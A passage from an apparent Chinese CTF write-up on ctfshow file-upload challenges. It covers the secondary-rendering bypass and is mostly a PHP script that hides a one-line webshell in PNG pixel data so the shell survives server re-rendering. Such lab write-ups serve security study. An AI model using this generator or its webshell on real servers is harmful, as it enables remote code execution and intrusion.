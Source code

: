 另外一边一直访问upload/index.php

![image-20210207175508593](ctfshow-文件上传/image-20210207175508593.png)           

## 164 二次渲染

二次渲染原理 : https://www.fujieace.com/penetration-test/upload-labs-pass-16.html

PNG图片马脚本:

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'2.png');  //要修改的图片的路径
/* 木马内容
<?$_GET[0]($_POST[1]);?>
 */
?>
```
